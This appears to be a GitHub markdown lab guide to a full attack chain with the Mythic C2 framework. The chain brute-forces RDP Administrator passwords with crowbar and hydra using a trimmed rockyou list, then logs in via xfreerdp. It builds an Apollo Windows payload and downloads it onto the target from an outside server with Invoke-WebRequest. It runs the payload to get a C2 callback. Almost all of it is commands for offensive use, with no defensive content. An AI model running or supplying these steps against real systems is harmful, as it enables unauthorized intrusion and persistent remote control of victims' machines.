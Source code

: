 # Mythic Agent Setup Guide

## Objective
Guide to set up a Mythic agent, create a payload, deliver it to a target, and establish a command-and-control (C2) session.

## Attack Diagram
![image](https://github.com/user-attachments/assets/c83cac7d-3d81-415e-bd42-5df438ba7d5e)
![image](https://github.com/user-attachments/assets/1b106895-0bc4-47cf-b59a-1a278fcada15)
![image](https://github.com/user-attachments/assets/7e022556-17b0-4085-8c53-f249e174c598)

---

## Steps

### 1. Prepare the Password Wordlist on Kali Linux
```bash
cd /usr/share/wordlists
ls
sudo gunzip rockyou.txt.gz
ls
```
- Verify `rockyou.txt` is available.

Take the first 50 passwords and create a smaller wordlist:
```bash
sudo head -50 rockyou.txt > /home/kali/belayserver-wordlist.txt
```

Edit the new wordlist to add your server password:
```bash
nano /home/kali/belayserver-wordlist.txt
```

### 2. Install Crowbar for Brute Force Attack
```bash
sudo apt-get install crowbar
```

Create a target file:
```bash
nano target.txt
```
- Add your target IP addresses.

Run Crowbar against RDP:
```bash
crowbar -b rdp -u Administrator -C /home/kali/belayserver-wordlist.txt -s <target-ip>
```

Alternatively, use Hydra:
```bash
hydra -t 1 -V -f -l Administrator -P /home/kali/belayserver-wordlist.txt rdp://<target-ip>
```
![image](https://github.com/user-attachments/assets/774d4aee-c0ad-4e56-af14-099eae67f657)

### 3. RDP into Target
Use `xfreerdp`:
```bash
xfreerdp /u:Administrator /p:<Password> /v:<target-ip>:3389
```

![image](https://github.com/user-attachments/assets/bb1f82ae-165f-49a5-bf8a-9a20e9046ee8)
![image](https://github.com/user-attachments/assets/a7edcd6f-af84-411c-b4ec-ad9dff90b0eb)

---

## Setup the Mythic Agent

### 4. SSH into Mythic Server

Browse Mythic Agents Matrix:
- [Mythic Agents Matrix](https://mythicmeta.github.io/overview/agent_matrix.html)

![image](https://github.com/user-attachments/assets/e3b060e9-42c9-4142-9582-bd2ac6ed8609)

Select Apollo agent (uses HTTP and TCP).

Install Apollo agent:
```bash
./mythic-cli install github https://github.com/MythicAgents/Apollo.git
```

![image](https://github.com/user-attachments/assets/71f23456-e216-4340-89ec-1b3ce2539492)

Install HTTP C2 Profile:
```bash
./mythic-cli install github https://github.com/MythicC2Profiles/http
```

![image](https://github.com/user-attachments/assets/358b83f1-cd70-4f95-92e9-b29aae1fc193)
![image](https://github.com/user-attachments/assets/1c603646-dfd0-43e6-a089-0b27ee13e30a)

### 5. Create a Payload
- Go to: `https://<mythic-server-ip>:7443/new/payloads`
- Click **Actions** ➔ **Generate New Payload**.
- Select **Windows** ➔ **Next**.
- Choose delivery method: **exe file**.
- Select all available commands.
- For callback host, use Mythic server IP (HTTP protocol).
- Name and optionally describe the payload.
- Click **Create Payload**.

![image](https://github.com/user-attachments/assets/d707a207-52d2-46f6-a7c8-f2cc96bb36c8)
![image](https://github.com/user-attachments/assets/f6c18dc8-9c44-408c-8621-7e362fd38c27)
![image](https://github.com/user-attachments/assets/46d7e52c-2b31-4905-aa4c-c33edb6b4ec0)
![image](https://github.com/user-attachments/assets/d2f00e1f-d933-4a25-8924-0d581fda1780)
![image](https://github.com/user-attachments/assets/6845ffb9-6137-46cf-9d36-005406826809)
![image](https://github.com/user-attachments/assets/1ea55c45-6414-4bdc-9602-048e70253518)

### 6. Download the Payload
Copy the download link (example):
```
https://144.202.70.131:7443/direct/download/<payload-id>
```
Use `wget` to download:
```bash
wget <copied-link> --no-check-certificate
```

![image](https://github.com/user-attachments/assets/a0a288e5-638e-41dc-9421-877db81bf967)

### 7. Serve the Payload Using Python HTTP Server
```bash
python3 -m http.server 9999
```

Allow port 9999 through firewall:
```bash
ufw allow 9999
```

![image](https://github.com/user-attachments/assets/e09722f8-daec-4ebc-9871-15655c3f6bd2)

### 8. Deliver the Payload to Target
On the RDP session (PowerShell):
```powershell
Invoke-WebRequest -Uri http://<mythic-server-ip>:9999/<payload-filename> -OutFile "C:\Users\Public\Downloads\<payload-filename>"
```

Run the executable on the target system.

![image](https://github.com/user-attachments/assets/80173790-f4ff-4b8f-9a46-625cc8509d53)

### 9. Verify Callback
- In the Mythic portal, go to **Callbacks**.
- You should see a new connection established.
- Click the red keyboard icon to interact and send commands.

![image](https://github.com/user-attachments/assets/f07a70ba-e1cf-4acd-aedc-963dbe33772f)
![image](https://github.com/user-attachments/assets/7b77f303-caef-420a-93bd-52aef00baf6e)
